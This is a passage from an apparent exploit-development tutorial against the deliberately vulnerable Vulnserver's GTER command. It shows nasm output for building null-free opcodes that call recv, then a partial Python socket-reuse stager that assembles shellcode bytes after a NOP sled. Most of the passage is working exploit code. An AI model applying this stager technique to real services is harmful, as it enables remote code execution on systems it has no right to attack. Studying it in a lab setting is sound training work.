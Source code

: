 Generating opcodes to call this function,

```c
// leads to null bytes
nasm > mov edx,0x40252c
00000000  BA2C254000        mov edx,0x40252c
// adding padding value 
nasm > mov edx,0x40252caa
00000000  BAAA2C2540        mov edx,0x40252caa
// performing left shift operation to remove null bytes (1 byte = 8 bits)
// 0x40252caa ---> Shift 4 bits right = 0x040252ca
// 0x040252ca ---> Shift 4 bits right = 0x0040252c
nasm > shr edx,8
00000000  C1EA08            shr edx,byte 0x8
nasm > call edx
00000000  FFD2              call edx
```

Adding this to our python script,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat socket-reuse-stager.py    
import socket, sys

file_descriptor=b""
file_descriptor+=b"\xcc"
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

stack_adjustment=b""
stack_adjustment+=b"\x83\xec\x70"

flag_value=b""
flag_value+=b"\x31\xc0"
flag_value+=b"\x50"

buffer_size=b""
buffer_size+=b"\x80\xc4\x04"
buffer_size+=b"\x50"

buffer_pointer=b""
buffer_pointer+=b"\x54"
buffer_pointer+=b"\x58"
buffer_pointer+=b"\x83\xc0\x70"
buffer_pointer+=b"\x50"

get_file_descriptor=b""
get_file_descriptor+=b"\x8b\x0b"
get_file_descriptor+=b"\x51"

socket_recv=b""
socket_recv+=b"\xba\xaa\x2c\x25\x40"
socket_recv+=b"\xc1\xea\x08"
socket_recv+=b"\xff\xd2"

payload=b""
payload+=b"\x90"*40
payload+=file_descriptor
payload+=stack_adjustment
payload+=flag_value
payload+=buffer_size
payload+=buffer_pointer
payload+=get_file_descriptor
```